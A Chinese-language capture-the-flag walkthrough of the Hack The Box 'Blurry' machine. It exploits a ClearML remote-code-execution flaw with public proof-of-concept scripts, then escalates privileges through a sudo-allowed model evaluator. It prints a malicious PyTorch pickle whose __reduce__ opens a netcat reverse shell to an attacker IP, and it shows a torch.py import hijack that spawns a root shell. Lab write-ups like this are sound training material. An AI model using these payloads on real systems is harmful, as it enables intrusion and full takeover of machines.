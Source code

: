 # Blurry

端口扫描

![image-20240806095527556](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240806095527556.png)



只开放22，80两个端口

查看80端口

![image-20240806095604090](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240806095604090.png)

将重定向域名添加到/etc/hosts文件，重新访问

![image-20240806095645485](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240806095645485.png)



![image-20240806095742579](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240806095742579.png)



需要登录，随便尝试aaa登录到dashboard

![image-20240806095904476](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240806095904476.png)

![image-20240806100836556](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240806100836556.png)

首页提示了clearMl的安装步骤，按照它的流程尝试在本地安装

![image-20240806101239232](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240806101239232.png)

需要把上面的几个子域名添加到/etc/hosts文件

```
echo '10.10.11.19	app.blurry.htb api.blurry.htb files.blurry.htb'>>/etc/hosts
```

![image-20240806101454238](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240806101454238.png)

重新尝试

![image-20240806101533799](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240806101533799.png)



poc(https://github.com/diegogarciayala/CVE-2024-24590-ClearML-RCE-CMD-POC)

![image-20240806101642418](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240806101642418.png)



```
python3 exploit.py default "Black Swan" "pwned4" "10.10.16.35" "1234"
python3 exploit.py cmd "Black Swan" "pwned4" --cmd "whoami"
```

![image-20240806102604572](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240806102604572.png)

![image-20240806102616114](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240806102616114.png)

攻击没成功，换个poc(https://github.com/xffsec/CVE-2024-24590-ClearML-RCE-Exploit)

![image-20240806105613949](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240806105613949.png)

![image-20240806105621471](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240806105621471.png)

成功拿到shell

sudo -l产看可执行的sudo命令

![image-20240806105910958](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240806105910958.png)

攻击脚本

```python
import torch
import torch.nn as nn
import os

class MaliciousModel(nn.Module):
	def __init__(self):
		super(MaliciousModel,self).__init__()
		self.dense=nn.Linear(10,1)
	def forward(self,demo):
		return self.dense(demo)
	def __reduce__(self):
		cmd="rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.35 1223 >/tmp/f"
		return os.system,(cmd,)
	
maliciousmodule=MaliciousModel()
torch.save(maliciousmodule,'exploit.pth')

    
```

脚本释意：

```
MaliciousModel Class: Defines a simple neural network model.
__reduce__ Method: Overridden to include a command that creates a reverse shell using netcat.
torch.save Function: Saves the model to a file named exploit.pth.
```

上传靶机

![image-20240806113303903](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240806113303903.png)

```
cp exploit.pth /models/exploit.pth
```

![image-20240806113401351](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240806113401351.png)



```
sudo /usr/bin/evaluate_model /models/exploit.pth
```

![image-20240806115014725](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240806115014725.png)

弹shell失败

另一种方式

```
echo 'import os; os.system("bash")' > /models/torch.py

sudo /usr/bin/evaluate_model /models/demo_model.pth
```

![image-20240806115315471](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240806115315471.png)